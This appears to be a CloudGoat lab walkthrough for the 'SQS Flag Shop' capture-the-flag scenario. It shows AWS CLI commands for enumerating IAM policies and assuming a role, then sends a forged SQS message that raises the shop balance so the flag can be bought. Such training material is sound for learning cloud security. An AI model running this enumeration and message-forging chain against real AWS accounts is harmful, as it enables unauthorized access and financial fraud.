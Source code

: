 # CloudGoat Walkthrough: SQS Flag Shop Scenario

## Deploying the Scenario

Once the Terraform process is complete, the starting data for the scenario will be provided. The output will look like:

```
[cloudgoat] terraform output completed with no error code.
cg_web_site_ip = 34.XXX.XXX.XXX:XXXX
cloudgoat_output_sqsuser_access_key_id = AKIXXXXXXXXXXXXXXXXX
cloudgoat_output_sqsuser_secret_key = isbXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

## Setting Up AWS Profile

The scenario provides a set of AWS credentials. Let’s create an AWS profile on the command line:

```sh
$ aws configure --profile sqs_user

AWS Access Key ID [******************QP]:
AWS Secret Access Key [******************2U]:
Default region name [us-east-1]:
Default output format [json]:
```

After setting up the profile for an AWS account, the first command to run is the AWS equivalent to ‘whoami’ so we can understand more about our user.

```sh
$ aws --profile sqs_user sts get-caller-identity

{
    "UserId": "XXXXXXXXXXXXXXXXXXZF4",
    "Account": "XXXXXXXXXXXX",
    "Arn": "arn:aws:iam::XXXXXXXX:user/cg-sqs-user-sqs_flag_shop_cgidbXXXXXXXXX"	 
}
```

This returns a JSON object containing:

- **UserId**
- **Account**
- **Arn**

More information about **Amazon Resource Names (ARNs)** can be found in the [AWS Documentation](https://docs.aws.amazon.com/).

## Enumerating User Policies

AWS policies define permissions for identities and resources. Let’s see what policies are associated with our user:

```sh
$ aws --profile sqs_user iam list-user-policies --user-name cg-sqs-user-sqs_flag_shop_cgidXXXXXXXX

{
   "PolicyNames": [
      "cg-sqs-scenario-assumed-role-policy"
    ]
}
```

This user has one attached policy. Let’s view its contents:

```sh
$ aws --profile sqs_user iam get-user-policy --user-name cg-sqs-user-sqs_flag_shop_cgidXXXXXXXXXX --policy-name cg-sqs-scenario-assumed-role-policy

{
   "UserName": "cg-sqs-user-sqs_flag_shop_cgidXXXXXXXXXX",
   "PolicyName": "cg-sqs-scenario-assumed-role-policy",
   "PolicyDocument": {
       "Version": "2012-10-17",
       "Statement": [
           {
               "Action": [
                   "iam:Get*",
                   "iam:List*"
               ],
               "Effect": "Allow",
               "Resource": "*",
               "Sid": "VisualEditor0"
           },
           {
               "Action": "sts:AssumeRole",
               "Effect": "Allow",
               "Resource": "arn:aws:iam::XXXXXXXXXXXX:role/cg-sqs_send_msg_role",
               "Sid": "VisualEditor1"
           }
       ]
   }
}
```

This policy allows us to assume a role! Let’s check the policies attached to that role:

```sh
$ aws --profile sqs_user iam list-role-policies --role-name cg-sqs_send_msg_role

{
    "PolicyNames": [
        "cg-sqs_scenario_policy"
    ]
}
```

The role `cg-sqs_send_msg_role` has the attached policy `cg-sqs_scenario_policy`. Let’s inspect it:

```sh
$ aws --profile sqs_user iam get-role-policy --role-name cg-sqs_send_msg_role --policy-name cg-sqs_scenario_policy

{
	"RoleName": "cg-sqs_send_msg_role",
	"PolicyName": "cg-sqs_scenario_policy",
	"PolicyDocument": {
    	"Version": "2012-10-17",
    	"Statement": [
        	{
            	"Action": [
                	"sqs:GetQueueUrl",
                	"sqs:SendMessage"
            	],
            	"Effect": "Allow",
            	"Resource": "arn:aws:sqs:us-east-1:XXXXXXXXXXXX:cash_charging_queue",
            	"Sid": "VisualEditor0"
        	}
    	]
	}
}
```

## Assuming the SQS Role

Since we can assume the role, let's do it:

```sh
$ aws --profile sqs_user sts assume-role --role-arn arn:aws:iam::XXXXXXXXXXXX:role/cg-sqs_send_msg_role --role-session-name sqs_send_role

{
	"Credentials": {
    	"AccessKeyId": "XXXXXXXXXXXXXXXXLOT5",
    	"SecretAccessKey": "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXQPgU",
    	"SessionToken": "XXX...XXX" ,
    	"Expiration": "2024-02-08T23:29:43+00:00"
	},
	"AssumedRoleUser": {
    	"AssumedRoleId": "XXXXXXXXXXXXXXXXXX2GJ:sqs_send_role",
    	"Arn": "arn:aws:sts::XXXXXXXXXXXX:assumed-role/cg-sqs_send_msg_role/sqs_send_role"
	}
}
```

Configure an AWS profile for this assumed role:

```
[sqs_send_role]
aws_access_key_id = ASIAXXXXXXXXXXXXXXXX
aws_secret_access_key = WmXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
aws_session_token = IQoXXXXXXXX...
```

## Finding the SQS Queue URL

```sh
$ aws --profile sqs_send_role sqs get-queue-url --queue-name cash_charging_queue

{
    "QueueUrl": "https://sqs.us-east-1.amazonaws.com/XXXXXXXX/cash_charging_queue"
}
```

## Web Application Analysis

Visiting the `cg_web_site_ip` in a browser displays a shopping website. Analyzing the network requests reveals a **POST request** when ordering a banana. The website's source code contains a function for `charge_cash`, which accepts a JSON message:

```json
{
    "charge_amount": 100000000
}
```

## Sending an SQS Message

We can send a message to the queue using:

```sh
$ aws --profile sqs_send_role sqs send-message --queue-url https://sqs.us-east-1.amazonaws.com/XXXXXXX/cash_charging_queue --message-body '{"charge_amount": 100000000}'

{
	"MD5OfMessageBody": "a539XXXXXXXXXXXXXXXXXXXXXXXXXXXX",
	"MessageId": "67dcXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX"
}
```

Refreshing the web application now reflects the increased balance, allowing us to purchase the flag.

## Conclusion

In this **SQS Flag Shop CloudGoat scenario**, we:

1. Enumerated user permissions.
2. Assumed a new role with additional permissions.
3. Analyzed the web application to discover its internal logic.
4. Sent a crafted AWS SQS message to increase balance and obtain the flag.

This walkthrough demonstrates how to leverage AWS IAM and SQS permissions in cloud security challenges.
